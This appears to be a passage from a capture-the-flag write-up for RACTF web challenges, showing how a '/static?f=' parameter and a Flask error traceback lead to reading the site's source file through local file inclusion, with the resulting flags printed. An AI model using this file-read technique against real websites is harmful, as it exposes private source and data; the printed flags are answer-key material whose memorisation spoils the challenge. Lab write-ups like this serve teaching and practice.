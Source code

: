 The flag is: `ractf{qu3ry5tr1ng_m4n1pul4ti0n}`

## Insert witty name
```
Having access to the site's source would be really useful, but we don't know how we could get it.
All we know is that the site runs python.
```

In the source of page `http://url`, we can read:
``` html
<link rel="stylesheet" href="/static?f=index.css">
```

There seems to have a Local File Inclusion, the page `http://url/static?` without file argument return an error page:
```
TypeError

TypeError: expected str, bytes or os.PathLike object, not NoneType
Traceback (most recent call last)

[...]

File "/usr/local/lib/python3.8/site-packages/flask/app.py", line 1936, in dispatch_request
    return self.view_functions[rule.endpoint](**req.view_args)
File "/srv/raro/main.py", line 214, in css
    return send_from_directory("static", name)
File "/usr/local/lib/python3.8/site-packages/flask/helpers.py", line 760, in send_from_directory
    filename = fspath(filename)
[...]
```

All traceback are refered to file of python libraries expect one, refered to `/srv/raro/main.py` which seem be a source file of the website

The page `http://url/static?f=main.py` return:
``` python
from application import main
import sys

# ractf{d3velopersM4keM1stake5}

if __name__ == "__main__":
    main(*sys.argv)
```

The flag is: `ractf{d3velopersM4keM1stake5}`

## Entrypoint
```
Sadly it looks like there wasn't much to see in the python source.
We suspect we may be able to login to the site using backup credentials, but we're not sure where they might be.
Encase the password you find in ractf{...} to get the flag.
```
